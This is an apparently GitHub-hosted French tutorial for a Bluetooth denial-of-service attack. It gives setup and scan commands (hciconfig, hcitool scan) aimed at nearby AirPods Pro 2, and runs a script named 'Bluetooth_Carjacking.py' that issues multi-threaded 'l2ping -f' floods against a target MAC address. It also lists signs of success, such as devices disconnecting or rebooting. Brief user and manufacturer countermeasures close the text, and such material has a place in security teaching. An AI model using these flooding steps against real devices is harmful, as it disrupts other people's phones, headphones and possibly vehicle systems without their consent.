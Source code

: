 ### Attaque de Déni de Service (DoS) Bluetooth  

---

### 1. Présentation de l'attaque  
L’attaque de déni de service (DoS) Bluetooth vise à perturber le fonctionnement d’un appareil Bluetooth cible en saturant son protocole de communication. Cette méthode exploite des outils tels que **hcitool** et **hciconfig**, combinés avec un script Python (**Bluetooth_Carjacking.py**), pour lancer une attaque intensive basée sur des paquets envoyés rapidement et en grande quantité.  

#### Objectifs principaux :  
- Bloquer ou ralentir les appareils Bluetooth cibles.  
- Perturber les connexions établies avec d'autres périphériques.  
- Démontrer la vulnérabilité des protocoles Bluetooth.  

---

### 2. Préparation de l’attaque  

#### Prérequis :  
- Un ordinateur ou une machine virtuelle Linux avec une interface Bluetooth (supportant **l2ping**, **hciconfig**, et **hcitool**).  
- Le script Python **Bluetooth_Carjacking.py** disponible et exécuté en tant qu’administrateur.  

#### Étapes préparatoires :  
1. **Installation des outils nécessaires** :  
   Assurez-vous que les outils Bluetooth requis sont installés dans notre cas, elle est installée de base sur l'OS. :  
   ```bash
   sudo apt-get install bluez
   ```  

2. **Activation de l’interface Bluetooth** :  
   Vérifiez que votre interface Bluetooth est activée avec la commande suivante qui va nous permettre de voir voir les paramètres de notre carte Bluetooth :  
   ```bash
   hciconfig hci0 up
   hciconfig -a
   ```
   ![image](https://github.com/user-attachments/assets/15f5a4b2-c940-415f-a323-d30a5badcfa4)

   On voit que l'interface Bluetooth tel que le BUS qui est dans notre cass USB, ainsi que l'adresse MAC, les différents MTU ( Maximal Transmission Unit ) avec l'état de la carte qui est démarré dans notre cas UP et qui est scanné avec RUNNING PSCAN. Le nombre de bits reçus et envoyés grâce à celle ci ainsi que le type de paquet échangés etc.

3. **Scan des périphériques à proximité** :  
   Lancez un scan Bluetooth pour détecter les appareils dans votre environnement :  
   ```bash
   hcitool scan
   ```  
   Vous obtiendrez une liste des adresses MAC des appareils détectés. On cherchera dans notre cas des écouteurs sans fil Apple Airpods Pro 2.
   
   
---

### 3. Étapes de l’attaque  

#### 3.1 Exécution du script **Bluetooth_Carjacking.py**  
Le script permet d’automatiser la découverte, la configuration, et l’envoi de paquets DoS.  

1. Lancez le script :  
   ```bash
   python3 Bluetooth_Carjacking.py
   ```  

2. Suivez les étapes interactives :  
   - Acceptez les avertissements légaux.  
   - Sélectionnez la cible (par ID ou adresse MAC).  
   - Définissez la taille des paquets à envoyer (ex. : 600 octets).  
   - Déterminez le nombre de threads pour maximiser l’effet de l’attaque.  

#### 3.2 Commande générée par le script :  
Une fois configuré, le script exécute des commandes comme :  
```bash
l2ping -i hci0 -s <taille_paquets> -f <adresse_MAC>
```  
Par exemple :  
```bash
l2ping -i hci0 -s 600 -f 00:11:22:33:44:55
```  

#### 3.3 Exécution multi-threadée  
Le script crée plusieurs threads pour intensifier l’attaque, ce qui se traduit par une surcharge du périphérique cible.  

---

### 4. Phase de test  

1. **Configuration de l’environnement de test** :  
   - Un smartphone Android, un iPhone ou un PC avec Bluetooth activé.  
   - Lancez l’attaque en utilisant une machine Linux avec Bluetooth fonctionnel.  

2. **Indicateurs de succès** :  
   - Le périphérique cible affiche des erreurs de connexion ou des notifications de déconnexion.  
   - Les appareils associés (casques, montres, etc.) perdent la connexion.  
   - Le périphérique cible redémarre ou désactive temporairement son Bluetooth.  

---

### 5. Contre-mesures  

#### Pour les utilisateurs :  
- Désactivez le Bluetooth lorsqu’il n’est pas nécessaire.  
- Utilisez des appareils équipés des dernières versions de Bluetooth avec des protections avancées.  

#### Pour les fabricants :  
- Implémentez des limitations sur la fréquence des paquets entrants.  
- Adoptez des protocoles sécurisés contre les attaques DoS (ex. : contrôle du trafic Bluetooth).  

---

### 6. Conclusion  

L'attaque DoS Bluetooth exploitant des outils comme **hcitool**/**hciconfig** et des scripts automatisés montre les failles des anciens standards Bluetooth. En réponse, les fabricants doivent renforcer les mécanismes de sécurité dans leurs implémentations des protocoles Bluetooth.
